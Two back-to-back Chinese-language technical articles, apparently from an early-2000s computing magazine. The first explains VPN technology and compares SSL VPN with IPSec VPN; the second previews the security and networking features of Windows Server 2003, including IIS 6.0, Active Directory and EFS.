VPN（Virtual Private Network）：虚拟专用网络，是一种新的网络技术，为我们提供了一种通过公用网络安全地对企业内部专用网络进行远程访问的连接方式。我们知道一个网络连接通常由 3 个部分组成：客户机、传输介质和服务器。VPN 同样也由这 3 部分组成，不同的是 VPN 连接使用隧道作为传输通道，这个隧道是建立在公共网络或专用网络基础之上的，如：Internet 或 Intranet。

#### VPN 带来的好处

VPN（虚拟专用网，Virtual Private Network）最大的吸引力在哪里？是价格。据估算，如果企业放弃租用专线而采用 VPN，其整个网络的成本可节约 21%～45%；至于那些以电话拨号方式联网存取数据的公司，采用 VPN 则可以节约通信成本 50%～80%。因此，VPN 带给用户的主要是成本的节省：以 Internet 作为隧道与企业内部专用网络相连，通信费用大幅度降低；其次企业可以节省购买和维护通信设备的费用。

#### VPN 的连接方式

要实现 VPN 连接，企业内部网络中必须配置有一台 VPN 服务器，VPN 服务器一方面连接企业内部专用网络，另一方面要连接到 Internet，也就是说 VPN 服务器必须拥有一个公用的 IP 地址。当客户机通过 VPN 连接与专用网络中的计算机进行通信时，先由 ISP（Internet 服务提供商）将所有的数据传送到 VPN 服务器，然后再由 VPN 服务器负责将所有的数据传送到目标计算机。VPN 使用三个方面的技术保证了通信的安全性：隧道协议、身份验证和数据加密。客户机向 VPN 服务器发出请求，VPN 服务器响应请求并向客户机发出身份质询，客户机将加密的响应信息发送到 VPN 服务器，VPN 服务器根据用户数据库检查该响应，如果账户有效，VPN 服务器将检查该用户是否具有远程访问权限，如果该用户拥有远程访问的权限，VPN 服务器接受此连接。在身份验证过程中产生的客户端机和服务器公有密钥将用来对数据进行加密。VPN 连接的示意图如下所示。



#### 当前实现 VPN 的几种主要技术

虚拟专网（VPN）能够让企业建立安全、独享的基于公网的通信信道，目前所采用的主要有以下几种技术：IPSec（Internet Protocol Security）、Secure Socket Layer（SSL）和 MPLS（Multi-protocol Label Switching）。本文将主要讨论 SSL VPN 的实现特点和应用前景。

#### 什么是 SSL（安全套接字层 Secure Sockets Layer）

安全套接字层（SSL）是由 Netscape Communications 开发的用来向因特网会话提供安全性和保密性的握手协议。它支持服务器和客户端认证，并且被设计成协商加密密钥以及在交换任何数据之前认证服务器。它使用加密、认证和 MAC 来维护传输信道的完整性。

虽然 SSL 最适合用于 HTTP，但它也可以用于 FTP 或其它相关协议。它在传输层运行并且是独立于应用程序的，因此像 FTP 或 HTTP 之类的相关协议可以放在该层之上。使用初始握手来对服务器进行认证。在这一过程中，服务器把证书提交到客户机并指定要使用的首选密码。然后，客户机生成在即将进行的会话期间使用的密钥，然后将它提交给服务器，并相应地用服务器的公钥对它加密。服务器使用其私钥解密消息，恢复密钥，然后通过向客户机发送一条使用该密钥加密的消息来向客户机认证自己。使用这一达成协议的密钥对加密的数据进行进一步的交换。

#### 什么是 IPSec

IPSec 是由 IETF 开发的一个国际标准，是一个开放的安全性的体系结构。

IPSec 提供了如何使敏感数据在开放的网络（如 Internet）中传输的安全机制。IPSec 工作在网络层，在参加 IPSec 的设备间（如路由器）为数据的传输提供保护，主要是对数据的加密和数据收发方的身份认证。

IPSec 不是某种特殊的加密算法或认证算法，也没有在它的数据结构中指定某种特殊的加密算法或认证算法，它只是一个开放的结构，定义在 IP 数据包格式中，为目前流行的数据加密或认证的实现提供了数据结构，为这些算法的实现提供了统一的体系结构。这有利于数据安全方面的措施进一步发展和标准化。同时，不同的加密算法都可以利用 IPSec 定义的体系结构在网络数据传输过程中实施。

随着 IPSec 在网络中的实施，数据在公共网络中传输可以免受 Observation（观察）、Modification（修改）或 Spoofing（欺骗）。这使得网络层的 VPN 实现成为可能，包括 Intranet、Extranet 和远程用户访问。

## SSL VPN 如何工作？

SSL VPN 通常在企业的防火墙后面放置一个 SSL 代理服务器。如果用户希望安全地连接到公司网络上，那么当用户在浏览器上输入一个 URL 后，连接将被 SSL 代理服务器取得，并验证该用户的身份，然后 SSL 代理服务器将提供一个远程用户与各种不同的应用服务器之间的连接。这种方式优于传统的 IPSec VPN 方式的主要特点是不需要安装任何客户端软件，客户端只需要拥有一个支持 SSL 的浏览器就可以了。

相比之下，传统的 VPN 通常会在安装客户端时遇到各种问题，并且在正确设置客户端时遇到麻烦。某些情况下，客户端软件还可能与其它应用相冲突，尤其是某些共享常用系统资源的拨号程序。

目前已经有一批厂商在提供基于 SSL 的 VPN 产品了，如 Aventail、Neoteris 和北京信安世纪信息安全技术有限公司等。其中，信安世纪公司已经研发完成一款命名为“联安通”的 SSL VPN 服务器，该服务器将软硬件捆绑在一起，目前已经成功地应用于国内的银行与企业之间的“银企直联”系统。

#### SSL VPN 与 IPSec VPN 的比较

某些层面上，这两种 VPN 的方式提供了类似的特性。例如 SSL 和 IPSec VPN 都支持 168 位的 3DES 加密来保证会话的安全性。

SSL VPN 的一个主要局限在于用户只能访问基于 Web 服务器的应用，而 IPSec VPN 却几乎可以为所有的应用提供访问，包括客户端/服务器模式和某些传统的应用。虽然 SSL VPN 在应用方面具有一定局限，但随着越来越多的公司将自己的应用转向 Web 平台，这将不再是主要问题。

两种技术的比较如表所示：

| 项目 | SSL | IPSec |
|---|---|---|
| 应用 | 基于 Web 的应用、文件共享和电子邮件 | 所有基于 IP 的服务与应用 |
| 加密方式 | 加密强度高，但依据浏览器的情况可变 | 加密强度高，与特定部署捆绑在一起 |
| 认证方式 | 可变——单向或双向认证，可使用电子钥匙和数字证书 | 强——双向认证，可使用电子钥匙和数字证书 |
| 适合的用户 | 市场、销售人员、客户与合作伙伴 | 员工、财务、IT 人员、工程师、运营人员 |
| 成本 | 成本固定（只需要 SSL 代理服务器） | 成本不固定（需要客户端软件） |
| 复杂程度 | 中等 | 高 |
| 使用方便性 | 很方便——只需要懂得浏览器使用 | 很高——对于非技术人员有一定难度 |
| 可扩展性 | 高——容易实施，与地点和计算机设备无关，但可能与应用相关 | 很高——与应用无关 |

VPN 舞台上安全套接层（SSL）的出现，使得基于 IP 安全的 VPN 厂商不得不重新思考他们的产品方略。

#### 市场对 SSL VPN 的预期

基于 IP 安全协议的 VPN 已经占领了很大一部分市场，但另外一种选择，即使用安全套接层的 VPN 也正开始稳步地抢占着地盘。

熟悉网络安全的少数人会认为，SSL 可能会完全替代 IPSec 协议。但 SSL 的支持者们却不这么认为，他们认为，当企业工作人员需要远程访问 Web 应用如电子邮件或者接入企业内网的时候，SSL 不过是一种更低廉而且更容易部署的选择而已。现在，传统的 IPSec VPN 厂商为了满足这方面的需求，正在匆忙地为其产品增加 SSL 性能。

基于浏览器的 SSL VPN 产品与 IPSec VPN 不同，它不要求企业在其远程设备上安装 VPN 客户端软件。有权接入企业网的用户可以通过任意一台带有浏览器的笔记本或者台式机安全接入企业网。这是因为 SSL 防火墙通常都是打开的，所以防火墙就不需要重新配置才能提供接入。

而用 IPSec VPN，每个远程设备都必须运行客户端软件，该软件还必须按需要进行更新。同样，防火墙和 IPSec 设备必须进行协同配置才允许接入企业网。

#### 未来市场中 SSL VPN 的表现

市场研究专家们预计，在今后几年中，SSL VPN 设备的全球销售将会出现增长。Infonetics 研究公司预测，这一市场将会从 2002 年的 5600 万美元增长到 2005 年的 8.4 亿美元。不过，该公司也认为，IPSec 产品将继续占据 VPN 市场的最大份额。Infonetics 预计，IPSec VPN 和防火墙的销售会从 2002 年的 15 亿美元增长到 2005 年的 25 亿美元。

> Infonetics 的执行经理 Jeff Wilson 说：“SSL 将主要面向所有并不需要访问很多应用的远程工作人员。它为他们提供了一种简单接入方式，来使用比如企业电子邮箱，查询保险金或者工资单等信息。只有那些需要使用很多应用，而且并非所有应用都基于 Web 的用户才需要 IPSec 客户端。”

但是随着基于 Web 的应用越来越多，以及远程接入需求的增长，SSL 就成了一个市场热门，成了传统 IPSec VPN 厂商需要考虑的一个发展方向。一些 IPSec VPN 支持者，如赛门铁克，正在估量如何将 SSL 集成进它的产品线。当然，在这些厂商中间也不是没有阻力，他们或多或少地已将 SSL 视为一种竞争的技术。但由于对无客户端 VPN 连接的需求在逐渐增长，理性在支配着他们必须将 SSL 产品纳入其产品线中。

#### 结论

虽然有很多人都认为 SSL 将会取代 IPSec VPN，但大多数工业观察家却认为这两种 VPN 将会共存，两者的市场空间都不小。我们有理由相信，随着基于 Web 的应用日趋增多，SSL VPN 将会在不远的将来占据一个更大的远程接入市场。

现在，使用 Windows 2000 已经不再是什么稀奇的事了，而 Windows XP 也已经带给了大家全新的感受和视觉冲击，不过似乎个人版的 Windows XP 所带的服务少了点，喜欢使用 Server 版的朋友总觉得少了点什么。现在微软又出了 Windows Server 2003，不知道读者们是否对这个新到的贵客有所了解，本文作者通过切实的使用和体会，给大家介绍一些关于它的新资讯。

## 从安全性的角度预览





## Windows Server 2003

文／Sowhat

备受瞩目的 Windows Server 2003 即将面世了。24 日在上海举行了《构造企业未来，微软 Windows Server 2003 技术预览大会》，在那里，我拿到了一张 Windows Server 2003 RC2 版（简体中文预览版）。

微软到底在 Windows Server 2003 里注入了哪些新的技术呢？下面就让我带你一起去体验功能强大、震撼人心的 Windows Server 2003。

首先，让我们来看看微软对它的定位：“Windows Server 2003 是有史以来最强大的操作系统平台，用以连接各类应用程序、网络应用与 Web 服务，满足从工作组级到数据中心级的客户需求。”怎么样？短短数语，已经把 Windows Server 2003 的彪悍勾画出来了吧。

大家都看到了，这次微软对它的命名还是与以往小有不同，比如 Windows 2000 Server，为什么呢？

这是因为这次发行的 4 个版本都是 Server 版。我来简单介绍一下：

- Windows Server 2003 标准版，主要用于小型商业环境的网络操作系统；
- Windows Server 2003 企业版，非常适合中型到大型的服务器；
- Windows Server 2003 Datacenter 版，适用于数据库、企业资源规划软件、高容量实时交易处理等场合；
- Windows Server 2003 Web 版是该系列中一个新的单一用途的版本，主要用于建立和管理 Web 应用程序、网页和 XML Web Services。

同时，还有企业版和 Datacenter 版的 64 位版本发行。

说到这里，想必有好多人已经急了，“你啰里啰嗦，说了半天，还没说到‘实质’呢……”*^-^*，不要急，我知道，大家最关心的是，Windows Server 2003 在安全性方面有哪些提高。好，我们一起来看。

大家应该听说过，微软在 2002 年 2～3 月花了 60 天的时间，进行“可信赖计算”代码复查，以增强其安全性。而 Windows Server 2003 是复查后的第一个被发布的重要操作系统，那么其安全性究竟如何呢？

俗话说“安全是一个整体”，那我们来看看，微软是怎样在 Windows Server 2003 这个整体中实现其安全性的。

## IIS6.0

大家应该听说过，这次的 IIS 是微软重新设计的系统，是一个完全不同于以前版本的全新的 IIS。其实呢，它只是作为“应用程序服务器”的一个组件出现的（图 1）。

先看看它在可靠性和可扩展性方面的改善和提高：

首先，它采用了新的处理架构，IIS6.0 可以自动探测到内存泄露（这就是说，它会在运行之前自动检查缓存，防止溢出）、非法访问及其他错误。当类似情况发生的时候，其底层架构提供了容错与按需重启流程处理的能力，这点也很重要，当 IIS 里某个程序出错的时候，它可以保证整个 IIS 的正常运行，不会因此而宕掉，而且还可以按需要和设置来决定是否重启这个出错的程序。



图 1

其次，IIS6.0 能够监控日常工作流程、应用及网站站点。它既可以检测工作流程状态，也可以基于多种情况，包括在线运行时间、指定的计划表、请求的数目及内存的消耗，来重复利用工作流程。

第三，IIS6.0 改善了操作系统内部资源的利用方式。举例来说：IIS6.0 不需要在初始化状态预先分配资源，在同一台 IIS6.0 的主机上可以运行更多的站点，大量的工作流程可以被同时激活处理。它比以前版本的 IIS 启动和关闭服务器所需的时间更短，很明显，它的这些措施都有效地提高了站点的可扩展性。

第四，IIS6.0 采用了新内核模式驱动——HTTP.SYS。这是 Windows Server 2003 提出的一个新的内核模式驱动，为 HTTP 解析与缓存提供了增强的可扩展性能。IIS6.0 建立在 HTTP.SYS 上，并被专门调用以提高 Web 服务器的吞吐量。另外，在特殊情况下，HTTP.SYS 可直接在内核中请求处理。

还有一个最大的区别，那就是 IIS5.0 是默认安装在 Windows 2000 Server 上的，而 IIS6.0 默认并不被安装在 Windows Server 2003 上，而是需要管理员进行手动选择地进行安装，单从这点来说，就显著地提高了安全性（图 2）。



图 2

另外，IIS6.0 中有个“隔离状态”（Isolating Mode）的说法，这是为了确保已有应用程序的兼容性，让 IIS6.0 以 IIS5.0 的模式运行。

大家还记得 IIS5.0 中 Lock Down 吗？（不记得了？没听过？晕！不了解的读者可以到微软的 TECHNET 中查阅。）在 IIS6.0 中有与此类似之处，IIS6.0 默认安装后是以“锁定状态”运行（被全面锁定），即相当于在以前的 IIS5.0、5.1 版本下运行了 IIS Lock Down 的状态。这就意味着默认系统的安全性被设为最大。

值得一提的是，IIS6.0 中 XML 格式与元格式的 metabase 为服务器的严重故障提供了改良的备份与恢复，同时也提供了改善的排错与 metabase 的故障恢复能力。

IIS6.0 的性能同样有很大的进步。根据 RC1 版的评测，IIS6.0 在双 CPU 环境下性能是 IIS5.0 的 1.5 倍，在四 CPU 环境下，性能是 IIS5.0 的 2.5 倍。

#### 活动目录

我们来看看 Windows Server 2003 在活动目录的安全性方面做了哪些改进：跨森林验证、跨森林授权、交叉认证的增强、IAS 和跨森林验证、凭证管理器、软件限制策略等等。

额外的安全特性，使得管理多森林和跨域信任关系更加容易。

以下 3 个特性为例简单说明：

跨森林的信任关系是有别于现有 Windows 信任关系的跨森林的安全管理以及验证，用户可以在不用单一登录功能的情况下，访问其他森林的资源，并且由于只需在用户所在的森林中维护它的用户 ID 和口令，因此管理也被大大简化。这对于一些需要在某些分工或区域拥有自己森林的场景提供了更好的灵活性，同时也有利于对活动目录的维护。

Windows Server 2003 提供了一个新的凭证管理器，这就提供了一个放置用户凭证，包括口令和 X.509 证书的安全存储位置。这将提供给用户一个统一的单点登录方式的体验，包括用户漫游。

我觉得最有趣的是它的软件控制策略。软件控制策略用来规范未知和不被信任的软件的使用。使用软件控制策略，管理员可以指定哪些软件可以运行，哪些不可以运行。通过设定防止在运行时遭到病毒感染或恶意攻击，从而保护当前计算机应用环境不被非信任的软件影响。

当你实施软件控制策略以后，每个软件都会有一个 HASH 值，以此来校验该软件是否被允许执行。这样，一个不被允许的软件，即使你对它进行了复制，其复件依然不可以运行。

管理员可以在 GPO（组策略）中对于某个软件定义一个缺省的安全级别：未加约束或者不允许，从而控制它是否运行。此外，你还可以在某些软件的缺省安全级别中添加一些额外的规则。

#### 数据存储和保护

- 1. 加密文件系统。正如我们在 Windows 2000 Server 中看到的一样，加密文件系统（EFS）是一种用来在 NTFS 卷上存储加密文件的技术。加密文件和文件夹像其他文件或文件夹一样容易使用——对授权用户而言是透明的，而其他人则无法访问。EFS 对于那些可能要面对计算机丢失或失窃风险的移动用户而言益处更大，它可以防止一个未经授权的人访问加密的文件或文件夹，即便这个入侵者采用物理方式侵入了计算机。

  而 Windows Server 2003 在 EFS 方面的改进，主要包括授权额外的用户访问加密文件，以及像恢复 Web 文件夹中的加密文件一样访问加密脱机文件。

- 2. 自动恢复系统（ASR）。自动恢复系统能够实现裸机恢复并保证服务器数据的恢复，包含“系统状态”的一致性。使用修复模式，ASR 确保服务器能在发生错误时自动恢复为错误发生前的状态。Windows 的备份应用程序能够轻松地让系统恢复 ASR 的功能。另外，结合 RIS（远程安装服务），ASR 可以在没有用户干涉的情况下提供高效的跨网络自动完成系统恢复的功能。

  说到 RIS，我顺便提一下，在 Windows Server 2003 中，管理员可以通过 RIS 服务器用 Risetup 和 RiPrep 来部署 Windows 2000、Windows XP 专业版及 Windows Server 2003（不包括 Windows 2000 Datacenter 版和 Windows Server 2003 Datacenter 版），而且，管理员可以通过 RIS 利用 Risetup 来部署 Windows XP 64 位版本和 Windows Server 2003 64 位版本。而大家知道，在以前，RIS 只限于桌面操作系统，如 Windows 2000 Professional。这是微软在 Windows Server 2003 中的又一个技术创新。

- 3. “打开文件”备份。我们都知道，在 Windows 2000 中，在开始备份操作之前，必须先关闭要被备份的文件。而 Windows Server 2003 的备份工具支持“打开文件”备份，因为现在使用影子副本的备份方式确保了被用户访问的任何打开文件能够同时被备份。

这对广大网管人员来说，绝对是个好消息。这意味着，备份工作不一定非得要等到大家都下班的时候才进行备份操作。

## 网络及通讯方面

##### IPv6

IPv6 是 TCP/IP 协议网络层协议的下一版。IPv6 解决了 IPv4 中现存的有关地址损耗、安全、自动配置、延展性问题。Windows Server 2003 提供的 IPv6 协议驱动具有很高的产品质量，广泛的 API 支持（Windows Sockets、RPC［remote procedure call］和 IPHelper）以及 IPv6 系统元件，如 Microsoft Internet Explorer、Telnet client、FTP client、IIS 6.0、文件共享、打印机共享。同时，IPv6 技术为 IPv6/IPv4 共存技术提供支持。

#### 网际协议安全

使用跨越 NAT 基于 IPSec 保护应用程序的困难已经被 over NAT 消除了。Windows Server 2003 允许第 2 层隧道协议（L2TP）over IPSec（L2TP/IPSec）或 IPSec 连接通过 NAT，这种能力基于最新的 IETF 标准作业。管理员也可以使用这个特性在没有专用 VPN 服务器要求的情况下，安全地进行外围网络 Microsoft Exchange 服务器与内部网运行 Exchange 服务器的交换，以及安全进行外围网络应用服务器与在 Internet 上的伙伴应用服务器的交换。

#### 安全方面新增功能

#### 高可信度计算

病毒的存在及软件安全性是现存的一个连续性的挑战。为了继续解决该问题，微软在其所有产品使用了高可信度计算作为关键技术。高可信度计算为设备的开发提供了一个框架，这些由计算机及软件给予动力的设备就如同每天在家使用的家用电器和日用品一样安全可靠。尽管现在真正的高可信度计算平台还未出现，但经过了重新设计的 Windows Server 2003 正朝向这一目标迈出了坚实的一步。

CLR（Common Language Runtime）。

CLR 软件引擎是 Windows Server 2003 提升可靠性并确保安全计算环境的关键要素，降低了由通常编程引起的 Bug 和安全漏洞的数量，因而也减少了可供攻击者利用的漏洞。CLR 检验应用程序是否能够正常运行，并检查其是否具备适当的安全许可，确保代码仅完成适当的操作。它通过检查代码下载和安装的位置、它是否拥有可信开发商的数字签名、代码是否曾被改动，来完成上述任务。

#### 其他

### 关机的“理由”（图3）

在 Windows Server 2003 中，关机必须要有个“理由”。在以前版本的 Windows 中，我们可以直接通过选择“关闭系统”来关闭计算机。在 Windows Server 2003 中，使用了一项新的故障跟踪技术——关机事件跟踪器，因此你在关机之前，必须找个理由——关闭事件跟踪器系统状态数据。Windows 提供这样的功能，即可在用户启动的系统重新启动之前检测到将要接近或超过的服务器系统资源限制。此信息对于了解服务器失败的根本原因非常重要，同时还有助于了解导致用户重新启动的性能降低的原因。关闭事件跟踪器功能可捕获基本的系统状态信息，以及在计算机重新启动之前所有的进程状态信息。当用户决定重新启动计算机并从关闭事件跟踪器中选择计划外的原因时，该功能将捕获关于每个进程、页面文件、磁盘和系统资源的整体使用情况等一系列参数，该功能是通过 GPO（组策略）进行管理。

